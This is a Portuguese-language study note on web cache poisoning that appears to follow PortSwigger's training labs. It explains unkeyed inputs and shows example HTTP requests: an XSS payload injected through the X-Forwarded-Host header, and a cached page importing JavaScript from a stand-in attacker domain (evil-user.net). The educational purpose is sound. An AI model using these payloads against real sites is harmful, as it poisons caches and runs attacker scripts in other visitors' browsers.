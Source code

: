 #web #vuln

O web cache serve para diminuir a carga de trabalho de um servidor, reduzindo o número de requisições duplicadas ao salvar uma cópia de uma resposta no cache. Quando o cache recebe uma requisição HTTP, ele verifica se existe uma resposta que serve para essa requisição através da cache key, formada por componentes do header. Componentes do header que não são inclusos na key são chamados de "unkeyed".

O web cache poisoning possui três passos:
1. Identificar unkeyed inputs
	1. A extensão **Param Miner** do Burp (BApp Store) automatiza isso mas é importante adicionar a opção para criar um *cache buster* a cada requisição para não prejudicar outros usuários ou o site.
2. Descobrir como obter uma resposta do backend com um payload crítico
3. Garantir que essa resposta seja armazenada em cache

## Explorando falhas

### [[XSS]]

Esse é a forma mais comum, quando um unkeyed input é refletida na resposta sem sanitização adequada. Por exemplo:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: innocent-website.co.uk 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Neste caso o valor do **X-Forwarded-Host** é usado na url da resposta para gerar uma imagem. Colocando um script em seu lugar:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

Neste exemplo, todos usuários que entrar em region=uk vai cair nesse script.

### Importações de recursos inseguras

Semelhante a situação anterior, ao descobrir que X-Forwarded-Host  é uma unkeyed input um possível teste seria colocar o seu domínio com um js que ao ser importado pela página ele irá executar.

```
GET / HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: evil-user.net

HTTP/1.1 200 OK 
<script src="https://evil-user.net/static/analytics.js"></script>
```

Lab: [[Web cache poisoning - with an unkeyed header]]
### Cookie handling

Há situações que valores que estão no cookie não são usados no cache key, sendo alvo de web cache poisoning

Lab: [[Web cache poisoning - unkeyed cookie]]

### DOM-Based 

Muitos websites usam JS acessar dados de maneira insegura e lançam no HTML.

Lab: [[Web cache poisoning - DOM-based]]

## Referências
https://portswigger.net/web-security/web-cache-poisoning